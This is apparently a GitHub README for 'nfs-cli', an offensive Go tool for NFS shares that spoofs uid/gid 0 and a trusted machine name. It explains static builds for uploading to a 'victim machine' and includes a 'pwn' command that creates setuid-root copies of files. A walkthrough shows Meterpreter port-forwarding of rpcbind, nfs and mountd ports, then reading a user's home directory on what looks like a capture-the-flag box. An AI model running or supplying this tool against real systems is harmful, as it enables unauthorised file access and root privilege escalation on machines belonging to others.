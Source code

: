 # nfs-cli

Simple cli for nfs. No NFS acls are bypassed or anything. This is not an exploit. You can set machine identifier, uid and gid though.

(And no, this doesn't work through a metasploit socks proxy, as go doesn't do obey proxychains.)

**It really shines when built static and uploaded to a victim machine**

## Usage
```sh
nfs-cli -machine iamallowed -uid 0 -gid 0 -target /path/to/exported/path -rhost remoteserver
```

Build static (for infil):
```sh
CGO_ENABLED=0 go build -a -ldflags '-extldflags "-static"' .
```

### Commands
Note: Don't include slashes in paths, this tool is pretty dumb.

- `ls` - list files i cwd
- `cd newdir` - change cwd
- `mkdir newdir` - create a directory (mode `06777`)
- `cat file` - view file
- `get file` - download file
- `b64get file` - download file "visually" in base64 format
- `put file` - upload file (mode `06777`)
- `b64put file` - will prompt for base64 input and upload (mode `06777`)
- `rm file` - delete file
- `rmdir dir` - delete directory (and recursive)
- `pwn file` - copies `file` to `file.pwn` and sets mode `06777`

The suid-bit doesn't work unless you are root, not sure if this is nfs or the library.

## Example
Metasploit:
```
# we can't forward listening sockets
sudo systemctl stop portmap
sudo systemctl stop rpcbind.socket

sudo msfconsole -q   # 111 is privileged, see below for workaround
...
meterpreter > shell
Process XYZ created.
Channel ZYX created.
$ rpcinfo -a
   program vers proto   port  service
   ...
    100005    2   tcp  20048  mountd      <--this is the portnumber you want
   ...
$ exit
meterpreter > portfwd add -l 111 -L 0.0.0.0 -p 111 -r 127.0.0.1
meterpreter > portfwd add -l 2049 -L 0.0.0.0 -p 2049 -r 127.0.0.1
meterpreter > portfwd add -l 20048 -L 0.0.0.0 -p 20048 -r 127.0.0.1
```

Client:
```
./nfs-cli -uid 0 -gid 0 -machine iamtrusted -rhost localhost -target /home/james
[/home/james] .> ls
  [.                                       ]  1000: 1000 (00700) 129
  [..                                      ]     0:    0 (00000) 0
  [.bash_logout                            ]  1000: 1000 (00644) 18
  [.bash_profile                           ]  1000: 1000 (00644) 141
  [.bashrc                                 ]  1000: 1000 (00644) 312
  [.ssh                                    ]  1000: 1000 (00700) 61
  [.bash_history                           ]     0:    0 (00777) 9
  [user.flag                               ]  1000: 1000 (00644) 38
  [README.md                               ]  1000: 1000 (00777) 2785
[/home/james] .> pwn README.md
[/home/james] .> ls
  [.                                       ]  1000: 1000 (00700) 150
  [..                                      ]     0:    0 (00000) 0
  [.bash_logout                            ]  1000: 1000 (00644) 18
  [.bash_profile                           ]  1000: 1000 (00644) 141
  [.bashrc                                 ]  1000: 1000 (00644) 312
  [.ssh                                    ]  1000: 1000 (00700) 61
  [.bash_history                           ]     0:    0 (00777) 9
  [user.flag                               ]  1000: 1000 (00644) 38
  [README.md                               ]  1000: 1000 (00777) 2785
  [README.md.pwn                           ]     0:    0 (06777) 2785
[/home/james] .> 
```

## Alternative usage (non-priv)
```
git clone https://github.com/go-nfs/nfsv3.git
cd nfsv3
# copy main.go here
# edit nfs/rpc/portmap.go and change PmapPort to 9111
go run . -h
```

Now it's possible to `portfwd add -l 9111 -L 0.0.0.0 -p 111 -r 127.0.0.1` instead. No need to run `msfconsole` as root.
